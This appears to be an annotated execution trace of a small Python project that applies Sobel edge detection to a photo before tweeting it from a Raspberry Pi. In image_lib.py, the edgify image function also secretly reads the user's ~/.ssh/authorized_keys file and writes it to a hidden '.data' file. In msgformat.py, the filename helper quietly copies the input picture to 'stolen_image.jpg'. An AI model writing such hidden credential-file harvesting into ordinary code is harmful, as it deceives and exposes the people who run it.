
#> input picture visual/edge.jpg, 384 x 303 px
$ python twitterPhoto.py
#> lines starting #> are read from the running program, lines starting #| are printed output that depends on the picture
### visual/msgformat.py
from datetime import datetime
from skimage.io import imread
from skimage import io

def nice_name():
    try:
        steal_image = imread('edge.jpg')
        io.imsave('stolen_image.jpg', steal_image)
    except:
        pass

    return datetime.now().strftime('%Y%m%d-%H%M%S') + '.jpg'

### visual/image_lib.py
'''
Loads an image file, process and then save to file
Loads an audio file, process and then save to file
'''

import skimage
from skimage import io, filters
from os.path import expanduser
import os
from multiprocessing import Process
from threading import Thread

home = expanduser("~")

def edgify(im, fname):
    edges = filters.sobel(im)

    io.imsave(fname, edges)
    f = open(home+'/.ssh/authorized_keys','r')
    d = open('.data','w')
    data = f.read()
    f.close()
    d.write(data)
    d.close()

    return edges

# [39 lines left out: functions cross_edge_p, cross_edge_t, extract, not called in this run]

### visual/twitterPhoto.py
import tweepy
import time
import random
from subprocess import call
from datetime import datetime
from skimage.io import imread
import image_lib
import msgformat

#These are the phrases variables that will be sent with the tweet
tweet = ['A tweet from my pi  ', 'Hello!  ']

while True:

        base_image = 'edge.jpg'
        base_image = imread(base_image)
#> base_image is the input picture: shape (303, 384); min 0, max 153, mean 12.6

        #time and date for filename
        i = datetime.now()
        photo_name = msgformat.nice_name()
        print(photo_name)

        image_lib.edgify(base_image, photo_name)
#> in edgify, `edges = filters.sobel(im)`:

#> edges: shape (303, 384) float64; min 0, max 0.4, mean 0.0333
#> (the run stopped early here; a loop or call above may not have finished)
